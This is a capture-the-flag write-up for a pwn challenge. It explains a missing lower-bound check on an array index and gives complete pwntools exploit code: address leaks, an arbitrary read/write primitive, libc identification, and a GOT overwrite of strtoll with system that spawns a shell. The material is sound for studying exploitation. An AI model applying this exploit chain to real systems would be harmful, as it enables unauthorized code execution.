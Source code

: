 The catch is this challenge is that we not given the libc. its part of the challenge to find the correct libc.
As always, lets pop the binary into IDA:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // r15
  __int64 index; // rax
  __int64 v6[100]; // [rsp+0h] [rbp-3C8h]
  char input[104]; // [rsp+320h] [rbp-A8h] BYREF
  unsigned __int64 canary; // [rsp+388h] [rbp-40h]

  canary = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  puts("Your array has 100 entries");
  while ( 1 )
  {
    while ( 1 )
    {
      printf("Read/Write?: ");
      fgets(input, 100, stdin);
      if ( input[0] != 'R' )
        break;
      printf("Index: ");
      fgets(input, 100, stdin);
      index = strtoll(input, 0LL, 10);
      if ( index > 99 )
LABEL_6:
        puts("Invalid index");
      else
        printf("Value: %lld\n", v6[index]);
    }
    if ( input[0] != 'W' )
      break;
    printf("Index: ");
    fgets(input, 100, stdin);
    v3 = strtoll(input, 0LL, 10);
    if ( v3 > 99 )
      goto LABEL_6;
    printf("Value: ");
    fgets(input, 100, stdin);
    v6[v3] = strtoll(input, 0LL, 10);
  }
  puts("Invalid option");
  return 0;
}
```

This binary basiclly consists of two basic things.
You can read from the array, or write to the array.
The following python code interacts with the binary:

```py
elf = ELF("array")

p = remote('34.124.157.94' , 10546)
def read_buf(idx):
        p.recvuntil("?: ")
        p.sendline("R")
        p.recvuntil("Index: ")
        p.sendline(str(idx))
        p.recvuntil("Value: ")
        res = p.recvline()[:-1]
        return int(res)

def write_buf(idx, val):
        p.recvuntil("?: ")
        p.sendline("W")
        p.recvuntil("Index: ")
        p.sendline(str(idx))
        p.recvuntil("Value: ")
        p.sendline(str(val))

```

The bug here is that the binary doesn't check for the lower bound, so we can read/write to any place we want.
After we run checksec on the binary, we can see that its really mitagated:
```
   Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  '.'
```
it contains a stack-canary (which is a random value stored right before the RBP in the stack to protect from buffer overflows)
NX is enabled (which marks the bss/stack/heap pages as non-executable)
PIE is enabled (which means that the binary is loaded to a random memory)
And lastly its Partial-Relro, which means it will resolve libc function in run time(+ its not full-relro so we can do got-overwrites)

our plan for exploting this binary will be as follows:
We want to gain a write-what-where primitive from our write-what-buffer :) functionliity.
In order to do that, we need binary address leak, stack leak, and libc leak.
We can see the the buffer isn't zeroed. this means that we can read and leak previously used data in the stack.
I leaked the binary address from 1 address before the buffer (so I entered -1 to the readbuf functionlity)
and I leaked a stack address from -7.
After leaking this stack offset, I saw that our buffer address is 0x320 bytes before that address.
So we basiclly know the address of the buffer!
Why is it important you ask?
Well, since we can read/write `buffer_address - i`, once we know buffer_address, after choosing `i = buffer_address + addr`, we can read any location we want!
(aslong as its before the buffer, but the stack is one of the last pages in the elf so thats fine)
This way I gained my arbitrary read/write primitive:

```py
def arb_read(addr):
        return read_buf((addr - buffer_addr) // 8) #since read_buf will read from buffer_addr + 8*input, if input = (addr - buffer)/8_addr it will read from addr.

def arb_write(addr, what):
        return write_buf((addr - buffer_addr) // 8, what) 

elf.address = read_buf(-1) - 0x11f5
stack = read_buf(-7)
buffer_addr = stack - 0x320
```
Now we need to find the libc version.
In order to find it, we can use a tool like `https://libc.blukat.me/`.
You basiclly give it a few libc functions you leaked, and it will find the correct libc.
I wrote this script to extract the libc, and then put it in the website:
```py
libc_leaks = ['puts', '__libc_start_main']
for func in libc_leaks:
       print(func, '-' + hex(arb_read(elf.got[func])))
```
![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/3f89b4f5-ea94-4a85-9c28-5a889c9657a5)

we found the libc.
Now we just read the one of the got function and substract their offset:
`libc.address = arb_read(elf.got['puts']) - libc.sym.puts`

now we can just do a got-overwrite with our arbitrary write, and replace strtoll with system. (strtoll will be called with our input in RDI, which is the parameter for system)

```py
arb_write(elf.got['strtoll'], libc.sym.system) #got overwrite
p.recvuntil("?: ")
p.sendline("R")
p.recvuntil("Index: ")
p.sendline('/bin/sh\x00')

p.interactive()
```

